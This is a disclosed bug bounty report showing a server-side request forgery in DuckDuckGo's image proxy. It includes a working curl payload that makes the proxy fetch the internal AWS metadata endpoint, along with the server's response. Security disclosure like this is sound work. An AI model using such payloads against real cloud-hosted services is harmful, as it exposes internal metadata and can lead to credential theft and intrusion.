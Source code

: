 # SSRF vulnerability on proxy.duckduckgo.com (access to metadata server on AWS)

## Report Details
- **Report ID**: 395521
- **URL**: https://hackerone.com/reports/395521
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-08-15T15:29:26.630Z
- **Disclosed**: 2018-10-31T17:33:34.738Z

## Reporter
- **Username**: cujanovic
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: duckduckgo

## Vulnerability Information
Hello, I saw that SSRF on proxy.duckduckgo.com is out of scope but because of the severity I wanted to report this.
The payload is simple: 
```curl "https://proxy.duckduckgo.com/iur/?f=1&image_host=http://169.254.169.254/latest/meta-data/"```

Response from the server:
```ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/
hostname
instance-action
instance-id
instance-type
local-hostname
local-ipv4
mac
metrics/
network/
placement/
profile
public-hostname
public-ipv4
public-keys/
reservation-id
security-groups
services/```

## Impact

access information on internal AWS metadata server.

## Attachments
- ddg.png
